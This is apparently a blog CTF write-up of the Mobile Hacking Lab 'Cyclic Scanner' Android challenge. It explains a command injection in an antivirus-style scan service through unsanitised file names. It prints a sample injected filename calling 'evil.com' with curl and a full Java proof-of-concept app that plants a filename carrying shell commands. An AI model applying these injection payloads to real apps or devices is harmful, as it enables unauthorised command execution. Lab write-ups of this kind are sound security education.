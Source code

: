 ```yaml
---
title:  "Mobile Hacking Lab Cyclic Scanner Writeup"
date:   2024-01-22T16:41:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for Cyclic Scanner challenge from Mobile Hacking Lab. 

## Static Analysis
Application have only MainActivity activity and this activity have a switch for activating a service.
Let's analyse code with jadx.
![](/assets/images_mhl_cyclicscanner/1.png)

When the manifest file is examined, some remarkable information is obtained.
- It can be predicted that it will perform file operations on external storage by requesting the MANAGE_EXTERNAL_STORAGE permission.
- Indicates that it will define a user-noticeable service (showing a notification in the status bar) using the FOREGROUND_SERVICE permission. (ScanService defined as service in manifest file.)

![](/assets/images_mhl_cyclicscanner/2.png)

When the codes of the MainActivity activity are examined, it is seen that if the key button shown to the user on the screen is activated, the scanning service starts and then an intent is sent to the ScanService service.

![](/assets/images_mhl_cyclicscanner/3.png)

When the codes of the ScanService service are examined, it is seen that when the service is started, it scans the files in the external storage and sends these files to the scanFile method in the ScanEngine class. Depending on the value returned from this method, whether the file is safe or infected is written to the logcat.

![](/assets/images_mhl_cyclicscanner/4.png)

The scanFile method calculates the sha1 hash value of the File object sent to it and checks whether it is one of the known malicious files. However, there is a command injection vulnerability here because the file location is added to the command string to be executed without any checking or cleaning process.

For example:
```
test.txt ; curl evil.com
```
If we set that string as the name of a file on an external storage, this name is added after the toybox command with “;” The commands left behind the sign are executed and a request is sent to evil.com. Any command can be run here within the scope of file name restrictions in the Android operating system. If you want to prepare a malicious application that creates the necessary file for the command to be run, the following piece of code can be used as an example:

```java
public class MainActivity extends AppCompatActivity {

    private static final int PERMISSION_REQUEST_CODE = 1;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        if (checkPermission()) {
            createTestFile();
        } else {
            requestPermission();
        }
    }

    private boolean checkPermission() {
        int writeExternalStoragePermission = ContextCompat.checkSelfPermission(getApplicationContext(), Manifest.permission.WRITE_EXTERNAL_STORAGE);
        return writeExternalStoragePermission == PackageManager.PERMISSION_GRANTED;
    }

    private void requestPermission() {
        ActivityCompat.requestPermissions(this, new String[]{Manifest.permission.WRITE_EXTERNAL_STORAGE}, PERMISSION_REQUEST_CODE);
    }

    @Override
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == PERMISSION_REQUEST_CODE) {
            if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {
                createTestFile();
            } else {
                Toast.makeText(getApplicationContext(), "Permission Denied!", Toast.LENGTH_SHORT).show();
            }
        }
    }

    private void createTestFile() {
        // your payload here:
        String fileName = "test.txt; mkdir hacked; cd hacked; touch pwnedddd ";

        File file = new File(Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS),fileName);

        try {
            boolean created = file.createNewFile();
            if (created) {
                Toast.makeText(getApplicationContext(), "File created: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            } else {
                Toast.makeText(getApplicationContext(), "File already exists: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            }
        } catch (IOException e) {
            e.printStackTrace();
            Toast.makeText(getApplicationContext(), "Failed to create file!", Toast.LENGTH_SHORT).show();
        }
    }

}

```
Don't forget to add 

```
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
```

permission to the manifest file so that files can be created in external storage.

`PoC screenshot will be added here.`

Thanks for reading! See you in next writeups 👋🏻👋🏻
